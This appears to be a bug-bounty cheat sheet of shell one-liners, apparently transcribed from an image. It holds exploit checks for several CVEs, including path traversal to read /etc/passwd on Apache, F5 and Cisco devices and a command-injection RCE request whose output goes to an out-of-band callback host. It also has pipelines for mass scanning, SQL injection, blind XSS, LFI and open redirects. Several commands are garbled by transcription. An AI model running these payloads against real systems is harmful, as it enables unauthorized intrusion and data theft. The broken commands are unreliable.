 # BY: h0tak88r
# CVE’s

## #Nuclie

```bash
cat dorks.txt| uncover — silent | httpx — silent | nuclei -t /nuclei-templates/cves
```

## #CVE-2022-1040

```bash
curl --connect-timeout 10 -ks -H "X-Requested-With: XMLHttpRequest" -X POST "https://host/userportal/Controller?mode=8700&operation=1&datagrid=179&json=\{"👽":"TEST"\}"
```

## #CVE-2021-41773 POC

```bash
cat subdomains.txt | while read host; do curl -m 10 -sS --silent --path-as-is --insecure "https://$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host ==> Vulnerable" >lol.txt || echo "$host ==>Not Vulnerable"; done
```

## #CVE-2020-5902

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port separator " " | awk '{print $1":"$2}' | while read host do ;do curl silent-path-as-is--insecure 
"https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp? fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n"; done
```

## #CVE-2020-3452

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table? type=mst&textdomain=/+CSCOE+/portal_inc.lua&default-language&lang=../" | head | grep -q "cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "${RED} NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

## #CVE-2022-0378

```bash
cat file.txt | while read h do;do curl -sk --insecure  "https://$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && \echo "$h \033[0;31mVul\n" || echo "$h \033[0;32mNot\n";done
```

### **[CVE](https://twitter.com/hashtag/CVE?src=hashtag_click)**-2022-44877 Control **Web** Panel Unauth [#RCE](https://twitter.com/hashtag/RCE?src=hashtag_click)

```html
POST /login/index.php?login=$(ping${IFS}-nc${IFS}2${IFS}`whoami`.{{interactsh-url}}) HTTP/1.1
Host: vuln
Content-Type: application/x-www-form-urlencoded

username=root&password=toor&commit=Login
```

# # Scanning Automation

```bash
**while true; do subfinder -dL domains.txt -all | anew subs.txt | httpx | nuclei -t nuclei-templates/ | notify ; sleep 3600; done**
```

# #SQLI

```bash
[+] findomain -t testphp.vulnweb.com -q |httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```

# #**XSS**

```bash
[+] waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u tee FILE.txt && catFILE.txt❘dalfox -b YOURS.xss.ht pipe > OUT.txt
[+] cat HOSTS.txt | getJS | httpx --match-regex "addEventListener\((?:\\") message(?: '|\")"
[+] gospider -S URLS.txt -c 10 d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other- source | grep -e "code-200" | awk '{print $5}' grep "=" qsreplace -a | dalfox pipe | tee OUT.txt
```

# **#LFI**

```bash
[+] gau HOST -s "" | gf lfi | qsreplace "/etc/passwd" | xargs -1% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"
```

# #Open Redirects

```bash
[+] export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST"| xargs -I %
-P 25 sh -c 'curl -Is "" 2>&1 | grep -q "Location: $LHOST" && echo "VULN!٪"'
[+] cat URLS.txt❘ gf url | tee url-redirect.txt && cat url-redirect.txt | parallel - 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
```

# #Prototype Pollution

```bash
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?_proto_[testparam]=exploit\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```

# #Find JavaScript Files

```bash
assetfinder --subs-only HOST | gau | egrep -v '(.css.png|.jpeg|.jpg|.svg|.gif].wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9_]+" | sed -e 's, 'var', '"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'): echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```

# #Extract Endpoints from JavaScript

```bash
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]&\""| sed -e 's/^"//' -e 's/"$//' | sort -u
```

# #Get CIDR & Org Information from Target Lists

```bash
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " | paste -; d
one | uniq); done
```
